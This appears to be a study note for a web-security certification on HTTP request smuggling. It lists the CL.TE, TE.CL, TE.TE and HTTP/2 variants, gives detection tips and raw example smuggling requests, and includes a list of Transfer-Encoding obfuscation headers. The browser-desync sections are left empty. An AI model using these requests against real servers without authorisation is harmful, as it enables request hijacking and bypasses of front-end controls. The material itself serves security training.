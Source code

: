 # HTTP Request Smuggling

## Types:

1. HTTP/1.1
    1. CL.TE
    2. TE.CL
    3. TE.TE
2. HTTP/2
   1. H2.CL
   2. H2.TE
3. Browser
   1. CL.0
   2. Client-side desync
   3. Pause-based desync

## How to find each type:

1. HTTP/1.1
    1. CL.TE
       - [Using 404 response](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#confirming-clte-using-404)
    2. TE.CL
       - [Using 404 response](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#confirming-tecl-using-404)
    3. TE.TE
       - [Using invalid method GPOST](https://github.com/leggetth/Burp-Suite-Certified-Practitioner-Prep/blob/main/training/http_req_smuggling_practice.md#obfuscating-te)
2. HTTP/2
   1. H2.CL
    - Add `Content-Length: 0` to the request
   2. H2.TE
    - Add `Transfer Encoding: Chunked` to the request
    - Then add a 0 before the second request
3. Browser
   1. CL.0
   2. Client-side desync
   3. Pause-based desync

## How to exploit each type:

1. HTTP/1.1
    1. CL.TE
       ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 13               --> Content length is 13 which includes smuggled
       Transfer-Encoding: chunked    

       0  --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend

       SMUGGLED               
       ```
    2. TE.CL
         ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Length: 3               --> Content length is 3 which includes the 8
       Transfer-Encoding: chunked    

       8  --> This is the length of the following request
       SMUGGLED
       0   --> Needs to end in /r/n/r/n
       ```
    3. TE.TE
       - You need to obfuscate the Transfer-Encoding header so that one server does not process it
        ```
        Transfer-Encoding: xchunked
        Transfer-Encoding : chunked
        Transfer-Encoding: chunked
        Transfer-Encoding: x
        Transfer-Encoding:[tab]chunked
        [space]Transfer-Encoding: chunked
        X: X[\n]Transfer-Encoding: chunked
        Transfer-Encoding
        : chunked
2. HTTP/2
   1. H2.CL
    ```
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 0               --> Which tells the backend that smuggled is a second request

   SMUGGLED               
   ```
   2. H2.TE
      ```
       POST / HTTP/1.1
       Host: vulnerable-website.com
       Content-Type: application/x-www-form-urlencoded
       Transfer-Encoding: chunked    
    
       0  --> Since it is chunked the 0 terminates the first request, sending smuggled to the backend
    
       SMUGGLED               
       ```
3. Browser
   1. CL.0
   2. Client-side desync
   3. Pause-based desync 

## Other important notes:
- HTTP/1.1 allows for content-length transfer-encoding
- Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.
- HTTP/2 is only vulnerable if the backend supports HTTP/1.1
- You need to manually switch the protocol in repeater
- [Hidden HTTP/2 support](https://portswigger.net/web-security/request-smuggling/advanced)
